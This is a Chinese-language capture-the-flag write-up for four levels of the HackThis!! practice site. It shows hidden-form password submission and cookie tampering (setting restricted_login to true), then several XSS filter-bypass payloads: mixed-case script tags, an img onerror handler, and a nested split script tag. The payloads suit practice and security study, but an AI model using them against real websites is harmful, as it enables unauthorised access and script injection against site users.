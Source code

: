 ## level1
审查元素->新建节点->编辑html>插入form
```html
<div>
<form method="GET" action="">
<input name="password" value="flubergump" type="hidden">
<input type="submit" value="submit">
</form>
</div>
```

## level2
审查元素->新建节点->编辑html>插入form
```html
<div>
<form method="POST" action="">
<input name="password" value="flubergump" type="hidden">
<input type="submit" value="submit">
</form>
</div>
```
可通过开发者工具中的网络标签页来查看通信过程验证。

## level3
改cookie中的`restricted_login`的值，将`false`改为`true`即可。
![](img/2017-04-04_pm_3.27.28.png)
## level4
先直接写他给的嵌入script标签的代码
```html
<script>alert('HackThis!!');</script>
```
然后结果发现它将`alert('HackThis!!');`这个script标签里面的值输出到了一个div标签里。
![](img/2017-04-04_pm_3.36.18.png)
于是我想在前面闭合掉div，然后在后面加上一个div开头与后面的div闭合。
结果发现没有过滤尖括号，把div直接输出了，然而script里面的内容还是作为html代码输出到了页面，外面没有script标签包裹，于是并没有执行。
![](img/2017-04-04_pm_3.39.26.png)
于是我想它是不是碰到script标签就把script过滤删除，然后把其中的内容输出到页面。到把script大小写混写
```html
</div><sCripT>alert('HackThis!!');</SCriPt><div>
```
页面弹框了 </br>
![](img/2017-04-04_pm_3.51.01.png)
再试试img标签
```html
<img src=0 onerror=alert('HackThis!!')>
```
页面虽然也弹框了</br>
但是发现题目要求，必须要嵌入的是那一段代码，而且页面没有显示要你进入下一关，应该意思是没通过。
然后想想看这样行不行。
```html
<scriscriptpt>alert('HackThis!!');</scscriptript>
```
然后发现页面其实也并不是将关键词script替换
然后我想，它是不是只过滤了一个script标签，我用两个试试呢？
```html
<script><script>alert('HackThis!!');</script></script>
```
然后将尖括号编码都不行。
```
&lt;script&gt;alert('HackThis!!');&lt;/script&gt;
```
或者
```html
%3cscript%3ealert('HackThis!!');%3c/script%3e
```
后来看了被人的writeup才发现，，，草，既然尖括号没有过滤，那可以用啊！
```html
<scr<script>ipt>alert('HackThis!!');</s</script>cript>
```

